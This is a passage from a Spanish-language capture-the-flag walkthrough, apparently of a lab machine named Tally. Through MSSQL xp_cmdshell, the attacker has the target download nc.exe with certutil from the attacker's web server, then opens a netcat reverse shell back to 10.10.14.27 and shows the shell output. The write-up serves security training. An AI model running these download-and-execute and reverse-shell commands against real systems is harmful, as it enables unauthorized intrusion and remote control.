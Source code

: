 ```bash
(2 rows affected, return status = 0)
1> 
```

Ya tenemos ejecución de comando y vemos que estamos como el usuario **sarah**. Cabe mencionar que es posible que el componente se vuela a deshabilitar, asi que hay que seguir el mismo proceso anterior para habilitarlo. Ahora lo que nos queda es entablarnos una reverse shell, para este caso vamos a transferir el binario nc.exe haciendo uso de un servidor HTTP con python:

```bash
1> xp_cmdshell "certutil.exe -f -urlcache -split http://10.10.14.27/nc.exe C:\Windows\Temp\nc.exe"                               
2> go                      
        output                                                            
        -------------------------------------------------------------------------------------------------------------------------
---------------------------------------------------------------------------------------------------------------------------------
---------------------------------------------------------------------------------------------------------------------------------
---------------------------------------------------------------------------------------------------------------------------------
----                                                                                                
        ****  Online  ****                 
          0000  ...
          6e00                                                                     
        CertUtil: -URLCache command completed successfully.                       
        NULL                                                                       
(5 rows affected, return status = 0)
1>
```

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.59 - - [19/Nov/2021 12:50:41] "GET /nc.exe HTTP/1.1" 200 -
10.10.10.59 - - [19/Nov/2021 12:50:41] "GET /nc.exe HTTP/1.1" 200 -
```

Y ahora nos entablamos la conexión:

```bash
1> xp_cmdshell "C:\Windows\Temp\nc.exe -e cmd.exe 10.10.14.27 443"
2> go
```

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.59] 49936
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
tally\sarah
C:\Windows\system32>
```
